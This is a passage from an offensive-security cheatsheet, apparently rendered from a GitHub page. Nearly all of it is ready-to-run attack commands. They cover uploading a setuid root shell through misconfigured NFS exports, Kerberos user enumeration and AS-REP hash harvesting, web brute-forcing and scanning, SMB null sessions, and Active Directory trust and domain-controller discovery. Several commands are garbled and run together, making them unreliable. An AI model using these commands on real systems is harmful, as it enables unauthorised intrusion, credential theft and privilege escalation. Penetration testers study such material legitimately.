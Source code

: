 List NFS exported shares. If 'rw,no\_root\_squash' is present, upload and execute [sid-shell](https://github.com/mantvydasb/Offensive-Security-Cheatsheets/blob/master/sid-shell.c)​

```bash
showmount -e 192.168.110.102
chown root:root sid-shell; chmod +s sid-shell
```

### Kerberos Enumeration <a id="kerberos-enumeration"></a>

```bash
# users
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

# TGT (from https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
GetNPUsers.py  DOMAIN.local/ -usersfile $usersfile -dc-ip $target -format hashcat -outputfile hashes.txt
```

### HTTP Brute-Force & Vulnerability Scanning <a id="http-brute-force-and-vulnerability-scanning"></a>

```text
gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobustertarget=10.0.0.1; nikto -h http://$target:80 | tee $target-niktotarget=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

### RPC / NetBios / SMB <a id="rpc-netbios-smb"></a>

```bash
rpcinfo -p $TARGETnbtscan $TARGET​#list shares
smbclient -L //$TARGET -U ""​# null sessionrpcclient -U "" $TARGET
smbclient -L //$TARGETenum4linux $TARGET
```

### SMTP <a id="smtp"></a>

```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

### Active Directory <a id="active-directory"></a>

```bash
# current domain info
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()​

# domain trusts
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()​

# current forest info
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()

​# get forest trust relationships
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', 'forest-of-interest.local')))).GetAllTrustRelationships()

​# get DCs of a domain
nltest /dclist:offense.localnet group "domain controllers" /domain​

# get DC for currently authenticated session
nltest /dsgetdc:offense.local

​# get domain trusts from cmd shell
nltest /domain_trusts​

```